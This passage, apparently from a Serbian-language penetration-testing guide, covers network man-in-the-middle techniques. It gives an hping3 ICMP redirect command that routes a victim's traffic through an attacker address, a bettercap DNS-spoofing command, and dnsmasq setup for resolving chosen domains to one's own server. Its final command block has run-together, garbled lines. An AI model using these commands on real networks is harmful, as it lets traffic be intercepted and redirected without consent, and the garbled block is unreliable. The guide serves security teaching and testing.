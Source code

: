 ```bash
Ettercap
icmp_redirect
hping3 [VICTIM IP ADDRESS] -C 5 -K 1 -a [VICTIM DEFAULT GW IP ADDRESS] --icmp-gw [ATTACKER IP ADDRESS] --icmp-ipdst [DST IP ADDRESS] --icmp-ipsrc [VICTIM IP ADDRESS] #Send icmp to [1] form [2], route to [3] packets sent to [4] from [5]
```

### DNS Spoofing

Napadač će rešiti neke (ili sve) domene koje žrtva traži.

```bash
set dns.spoof.hosts ./dns.spoof.hosts; dns.spoof on
```

**Konfigurišite sopstveni DNS sa dnsmasq**

Da biste konfigurisali sopstveni DNS server koristeći dnsmasq, pratite sledeće korake:

1. Instalirajte dnsmasq na vašem serveru:

```
sudo apt-get install dnsmasq
```

2. Otvorite konfiguracioni fajl dnsmasq:

```
sudo nano /etc/dnsmasq.conf
```

3. Konfigurišite dnsmasq da koristi vašu IP adresu kao DNS server:

```
listen-address=your_ip_address
```

4. Dodajte željene DNS zapise u konfiguracioni fajl. Na primer:

```
address=/example.com/your_ip_address
```

5. Sačuvajte i zatvorite fajl.
6. Pokrenite dnsmasq servis:

```
sudo systemctl start dnsmasq
```

Sada ste uspešno konfigurisali sopstveni DNS server koristeći dnsmasq. Možete koristiti ovaj server za preusmeravanje DNS upita i prilagođavanje DNS zapisa prema vašim potrebama.

```bash
apt-get install dnsmasqecho "addn-hosts=dnsmasq.hosts" > dnsmasq.conf #Create dnsmasq.confecho "127.0.0.1   domain.example.com" > dnsmasq.hosts #Domains in dnsmasq.hosts will be the domains resolved by the Dsudo dnsmasq -C dnsmasq.conf --no-daemon
dig @localhost domain.example.com # Test the configured DNS
```

### Lokalni gateway-ji
